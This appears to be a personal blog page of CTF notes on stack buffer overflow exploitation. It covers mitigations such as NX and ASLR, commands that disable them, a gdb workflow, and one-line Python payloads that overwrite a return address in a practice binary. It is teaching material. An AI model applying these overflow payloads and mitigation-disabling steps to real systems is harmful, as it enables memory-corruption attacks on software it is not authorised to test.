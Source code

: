 ```yaml
---
layout: default
title: PWN in CTF
---
```


<h2>{{ page.title }}</h2>


0x0 Instruction
---
  PWN in CTF are mostly based on exploring and utilize buffer overflow weaknesses. In order to Pwn the question the well known of stack overflow, stack protection techniques and shellcode are needed.

0X1 Stack overflow
---
Performing the stack overflow attack needs hackers having the deep understanding of the target program, which basicly relys on their reverse engineering techniques. Therefore, it is also platform-related. Different oprating system / CPU architectures requires different RE solution.

Otherwise the article[0] below had a very well explaination for x86_64bit Linux buffer overflow.

0x2 ASLR, Stack Canary, NX or PIE
---
They are all exploit mitigation techniques.

NX Bit makes certain areas of memory non executable. Note that NX Bit is set by gcc.

1.Switch off stack protection:

```
gcc -fno-stack-protector -z execstack
```

If ALSR is on every time executing the program, it will be loaded to different memory address. Note that ALSR is set by the OS. 

1.Check ALSR:
```
cat /proc/sys/kernel/randomize_va_space
```

2.Switch off ALSR:
```
sudo echo 0 > /proc/sys/kernel/randomize_va_space
```
    
0x3 Common procedure
---
1. Detect packer (Usually UPX in Linux)
2. checksec.sh DEP and ALSR
3. Assembly code Analysis (stack structure) in order to set breakpoint in gdb. 
   The breakpoint should be set after the stack is filled.
4. Locate RIP.
5. Write shellcode based on occasions below

```
               +---------------------------------+
               |  Classic stack over flow        |
               |  (execute payload in the stack) |
               +----+---+------------------------+
                 if |   | if
                    |   |
                    |   +--------------------------+
                    |                              |
               +----+---------------+     +--------+---------------+
               |  NIX bit           |     |       ALSR             |
               |  ("+z execstack")  |     |  (randomize_va_space)  |
               +--------------------+     +--+---------------------+
               ON   |                        |
          +---------+                        |
          |                                  |
          |                     +--------------------------------------+
+---------------------------+   |  |return+to+plt                      |
|  |return+to+libc          |   |  |brute forcee                       |
|  |chained return+to libc  |   |  |GOT overwrite and GOT dereference  |
+---------------------------+   +--------------------------------------+

```

0x4 Useful commands for uploading payload to stack
---
1. Under cmd :
```
 ./bof $(python -c 'print "A" * 264 + " \x7f\xff\xff\xff\xdc\x90"[:: -1]')
```

2. Under cmd, storing payload in a file:
```
 cat payload.txt | ./bof
```

2. Under cmd, payload is an argument:
```
python -c "print 'A'*64+'\x5b\x84\x04\x08'" |xargs ./bof
```

4. Under gdb :
```
run $(python -c 'print "A" * 264 + " \x7f\xff\xff\xff\xdc\x90"[:: -1]')
```

5. Under gdb, storing payload in a file :
```
run < in.txt
```

0x5 Reference
---
[0]https://www.exploit-db.com/docs/33698.pdf

[1]http://blog.csdn.net/caterpillarous/article/details/51177527

[2]http://www.jianshu.com/p/a659924515f7

[3]https://sploitfun.wordpress.com/2015/

[4]https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/

<h2>{{ page.date | date_to_string }}</h2>
